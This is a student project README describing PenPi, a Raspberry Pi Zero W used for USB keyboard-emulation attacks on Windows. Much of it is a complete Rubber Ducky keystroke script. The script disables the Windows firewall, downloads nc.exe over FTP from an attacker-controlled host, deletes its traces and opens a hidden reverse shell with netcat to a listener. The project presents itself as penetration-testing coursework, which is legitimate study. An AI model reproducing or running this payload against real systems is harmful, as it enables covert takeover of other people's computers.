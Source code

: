 # CS445Project
I decided to use a physical security device created by myself and a few team members for our senior project in CS. It is called the PenPi, short for Penetration Raspberry Pi, a tool designed to be used by researchers and use by professionals in a penetration testing scenario. In this project, I setup the PenPi device to launch a USB Rubber Ducky script against a Windows 10 Machine in order to compromise it and setup a reverse shell that connected to my "Hacking" system.

Due to my limited time on the project, I did not have much opportunity to do anything other than this attack.

## PenPi
The Penpi device is a Raspberry Pi Zero W that can be used to launch HID emulation attacks as well as a multitude of others. It can be interfaced in many ways, including by app over Bluetooth and wirelessly with SSH, and can launch payloads in many ways as well. I used it for a simple HID attack in which I emulated a keyboard via USB.

## Encoder
The encoder included in the files above is designed to take scripts that are traditionally meant to run in the USB Rubber Ducky from Hak5 and enable their use on the PenPi device

## HID Emuator
This magic part of the tool will take the encoded ducky script uploaded to the PenPi device and send it in HID packets to the target machine. In this way, the device can send keyboard input to the device and force it to execute commands on the command prompt. This is how the script interacts with the victim machine.

## Script
Below is the script that I used on the device for this project:
```
DELAY 10000
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 600
STRING cd %USERPROFILE%
ENTER
DELAY 100
STRING netsh firewall set opmode disable
ENTER
DELAY 2000
STRING echo open [IP] [PORT] > ftp.txt
ENTER
DELAY 100
STRING echo [USERNAME]>> ftp.txt
ENTER
DELAY 100
STRING echo [PASSWORD]>> ftp.txt
ENTER
DELAY 100
STRING echo bin >> ftp.txt
ENTER
DELAY 100
STRING echo get nc.exe >> ftp.txt
ENTER
DELAY 100
STRING echo bye >> ftp.txt
ENTER
DELAY 100
STRING ftp -s:ftp.txt
ENTER
STRING del ftp.txt & exit
ENTER
DELAY 2000
GUI r
DELAY 200
STRING nc.exe [LISTENER IP] [LISTENER PORT] -e cmd.exe -d
ENTER
DELAY 2000
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 600
STRING exit
ENTER
```

### END OF FILE
